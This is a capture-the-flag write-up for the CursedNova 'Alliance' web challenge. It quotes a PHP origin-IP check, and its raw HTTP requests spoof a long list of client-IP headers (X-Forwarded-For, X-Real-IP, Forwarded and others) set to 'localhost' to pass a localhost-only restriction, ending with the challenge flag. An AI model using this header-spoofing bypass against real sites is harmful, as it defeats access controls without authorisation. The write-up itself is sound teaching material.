

# CursedNova, Alliance, web 

## Description
Create your own alliance.

## Solution

Quick look at `includes\pages\game\ShowAlliancePage.class.php` diff and we see:

```
    private function createAlliance()
    {
        $action = $this->getAction();
        if ($action == "send") {
            $checkOriginIpResult = checkOriginIP(getallheaders());
            echo ($checkOriginIpResult[1] . "\n");
            if ($checkOriginIpResult[0] === true) {
                $this->createAllianceProcessor();
            }

        } else {
            $this->display('page.alliance.create.tpl');
        }
    }
```

Page is doing some origin ip verification. When we want to create an alliance using normal browser, the page says that this functionality is available only from localhost:



Let's use Burp Proxy for this task.

Using the following request:
```
POST /game.php?page=alliance&mode=create&action=send HTTP/1.1
Host: uni1.cursednova.securing.pl
Cookie: lang=en; 2Moons=fa49076bacf3ea0f50fbee489c22a5e6
Content-Length: 32
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Connection: close
Origin: localhost


atag=localhost&aname=localhost
```

we got:
```
HTTP/1.1 200 OK
Date: Tue, 21 Jun 2022 19:03:07 GMT
Server: nginx/1.21.6
Content-Type: text/html; charset=UTF-8
X-Powered-By: PHP/7.3.33
P3P: CP="IDC DSP COR ADM DEVi TAIi PSA PSD IVAi IVDi CONi HIS OUR IND CNT"
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Connection: close
Content-Length: 21

Not localhost enough
```


So let's try more funky headers:

```
POST /game.php?page=alliance&mode=create&action=send HTTP/1.1
Host: uni1.cursednova.securing.pl
Cookie: lang=en; 2Moons=fa49076bacf3ea0f50fbee489c22a5e6
Content-Length: 32
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Connection: close
Origin: localhost
Referer: localhost
X-Forwarded-For: localhost
X-Real-IP: localhost
X-Forwarded-Host: localhost
Forwarded: for=localhost
Client-IP: localhost
X-Client-IP: localhost
X-Real-IP: localhost
X-Remote-IP: localhost
X-Remote-Addr: localhost
X-Host: localhost

atag=localhost&aname=localhost
```

and the flag is ours.

Flag: `CURSEDNOVA{You_must_gather_your_party_Chaid9aw}`
